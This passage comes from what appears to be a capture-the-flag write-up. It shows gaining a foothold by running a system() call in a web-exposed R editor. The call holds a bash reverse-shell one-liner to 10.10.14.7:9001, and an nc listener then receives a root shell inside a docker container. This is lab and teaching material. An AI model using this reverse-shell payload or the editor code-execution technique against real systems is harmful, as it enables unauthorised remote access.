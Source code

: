 Nothing much to do here now,  but lets keep in mind these details!

## Foothold
We can go to port 8080, open RJ editor:
![](talkative/images/image6.png)

Add this line and press CTRL+SHIFT+ENTER to execute ruby command to get a shell:
```
system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1'",intern=TRUE)
```

We are root inside a docker container:
```bash
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.199.0] 45914
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@b06821bbda78:/#
root@b06821bbda78:/# ls -la
ls -la
total 80
drwxr-xr-x   1 root root 4096 Mar  7 23:18 .
drwxr-xr-x   1 root root 4096 Mar  7 23:18 ..
-rwxr-xr-x   1 root root    0 Aug 15  2021 .dockerenv
drwxr-xr-x   2 root root 4096 Jul 22  2021 bin
drwxr-xr-x   2 root root 4096 Apr 12  2016 boot
drwxr-xr-x   5 root root  340 Apr  9 22:00 dev
drwxr-xr-x   1 root root 4096 Aug 15  2021 etc
drwxr-xr-x   2 root root 4096 Apr 12  2016 home
drwxr-xr-x   1 root root 4096 Aug 15  2021 lib
drwxr-xr-x   2 root root 4096 Jul 22  2021 lib64
drwxr-xr-x   2 root root 4096 Jul 22  2021 media
drwxr-xr-x   2 root root 4096 Jul 22  2021 mnt
drwxr-xr-x   2 root root 4096 Jul 22  2021 opt
dr-xr-xr-x 409 root root    0 Apr  9 22:00 proc
drwx------   1 root root 4096 Mar  7 23:19 root
drwxr-xr-x   1 root root 4096 Aug 15  2021 run
drwxr-xr-x   1 root root 4096 Aug 15  2021 sbin
drwxr-xr-x   2 root root 4096 Jul 22  2021 srv
dr-xr-xr-x  13 root root    0 Apr  9 22:00 sys
drwxrwxrwt   1 root root 4096 Apr 11 05:09 tmp
drwxr-xr-x   1 root root 4096 Jul 22  2021 usr
drwxr-xr-x   1 root root 4096 Jul 22  2021 var
```

### Container IP
The container is lacking of network tools but we still can get the IP using `hostname`:
```
root@b06821bbda78:/# hostname -I
172.18.0.2
```
